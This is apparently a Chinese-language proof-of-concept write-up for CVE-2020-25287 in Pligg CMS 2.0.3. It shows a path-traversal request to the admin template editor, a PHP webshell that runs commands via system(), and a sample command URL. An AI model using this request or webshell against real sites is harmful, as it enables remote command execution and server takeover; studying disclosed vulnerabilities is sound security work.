 # CVE-2020-25287：Pligg 2.0.3允许远程身份验证的用户执行任意命令

## Pligg

Pligg

https://www.pligg.com/



软件类别： CMS 开发语言： PHP 运行平台： PHP+MySQL 授权协议： 开源软件

## POC

https://github.com/jenaye/pligg



说明 ： 我们可以通过模板编辑器菜单使用参数访问任何文件，因为cms没有对扩展进行检查，然后将 Webshell 创建到现有的 php 文件中作为示例 the\_file 受影响的版本 ： 2.0.3

### 利用

![image-20200922013512947](assets/cve-2020-25287.assets/image-20200922013512947.png)

转到bp截获请求，并更改文件路径。/admin/admin\_editor.php

范例：xxx.php \(此例子为index.php\)

![image-20200922013557374](assets/cve-2020-25287.assets/image-20200922013557374.png)

```bash
POST /admin/admin_editor.php HTTP/1.1
Host: kliqqi
Content-Length: 33
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://kliqqi
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://kliqqi/admin/admin_editor.php
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: panelState=CollapseManage%7CCollapseSettings%7CCollapseTemplate; PHPSESSID=lfkc3gtrv5o1golmt5md3; mnm_user=Admin; mnm_key=QWRtaW46MjI0R2dEVTAxZncxZzpl
Connection: close

the_file=..%2Fxxx.php&open=Open
```

然后发包，这时浏览器会响应并显示以下，修改xxx.php的内容为cmd shell

```php
<?php
  if($_GET['cmd']){
    system($_GET['cmd']);
}
/>
```

![image-20200922013636915](assets/cve-2020-25287.assets/image-20200922013636915.png)

最后在浏览器浏览webshell

`xxx.com/xxx.php?cmd=dir`



![image-20200922013709870](assets/cve-2020-25287.assets/image-20200922013709870.png)